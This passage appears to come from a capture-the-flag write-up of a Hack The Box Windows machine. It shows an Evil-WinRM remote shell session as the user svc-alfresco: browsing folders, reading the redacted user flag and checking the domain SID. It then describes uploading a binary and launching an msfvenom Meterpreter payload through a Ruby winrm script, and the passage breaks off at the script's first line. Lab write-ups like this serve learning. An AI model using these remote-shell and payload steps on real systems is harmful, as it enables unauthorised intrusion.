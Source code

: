 
    *Evil-WinRM* PS C:\Users\svc-alfresco\Documents> cd ../
    di*Evil-WinRM* PS C:\Users\svc-alfresco> dir


        Directory: C:\Users\svc-alfresco


    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    d-r---        9/23/2019   2:16 PM                Desktop
    d-r---       10/24/2019   9:31 AM                Documents
    d-r---        7/16/2016   6:18 AM                Downloads
    d-r---        7/16/2016   6:18 AM                Favorites
    d-r---        7/16/2016   6:18 AM                Links
    d-r---        7/16/2016   6:18 AM                Music
    d-r---        7/16/2016   6:18 AM                Pictures
    d-----        7/16/2016   6:18 AM                Saved Games
    d-r---        7/16/2016   6:18 AM                Videos


    *Evil-WinRM* PS C:\Users\svc-alfresco> dir Desktop


        Directory: C:\Users\svc-alfresco\Desktop


    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    -ar---        9/23/2019   2:16 PM             32 user.txt


    *Evil-WinRM* PS C:\Users\svc-alfresco> type Desktop\user.txt
    e5e4e<redacted>

# Getting root

## evil-winrm and binary

Using evil-Winrm we can also check the domain SID (and our user SID):

    :::text
    whoami /user
    USER INFORMATION
    ----------------

    User Name        SID
    ================ =============================================
    htb\svc-alfresco S-1-5-21-3072663084-364016917-1341370565-1147

Using evil-winrm we can easily upload a binary using the `upload` function.
Nevertheless I was not able to invoke the binary using the `Invoke-binary`
command. Therefore I used a simple ruby script to get on the machine a launch a
msfvenom meterprter:


    :::ruby
    require 'winrm'

